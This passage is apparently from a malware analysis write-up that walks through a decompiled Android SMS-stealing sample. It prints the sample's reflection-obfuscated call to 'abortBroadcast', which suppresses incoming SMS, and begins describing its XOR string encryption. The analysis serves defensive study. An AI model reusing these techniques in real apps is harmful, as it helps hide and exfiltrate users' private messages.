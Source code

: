 First, we can see that the `AsyncTask` named `v` we just analyzed is called here, and we can suppose that received SMS are exfiltrated in this way. The second thing to note 
is the call to the routine `w`, calling another routine `q`:

> ```java
>private void w(Context paramContext){
>	try{
>		q(paramContext);
>	}
>	catch (Exception paramContext) {}
>}
>
>protected boolean q(Context paramContext) throws Exception{
>	try{
>		Class.forName(q.x + r[3] + q.r + r[2]).getDeclaredMethod(q.h + q.r, new Class[0]).invoke(this, new Object[0]);
>		return true;
>	}
>	catch (Exception e){
>		throw e;
>	}
>}
> ```

Once decrypted, the array `r` contains:

> ```
>0: pdus
>1: url
>2: Receiver
>3: .content.
> ```

and `q.x = "android"`, `q.r = "Broadcast"`, and `q.h = "abort"`, and then we have:

> ```java
>Class.forName("android.content.BroadcastReceiver").getDeclaredMethod("abortBroadcast", new Class[0]).invoke(this, new Object[0]);
> ```


## A few words about strings encryption

In many classes, strings are encrypted using two routines. The first one only affects the first byte, and the second one XOR's each byte with 5 different constants. Let's take as example the class `q`, containing malware's constants:

![enc1](enc1.png)
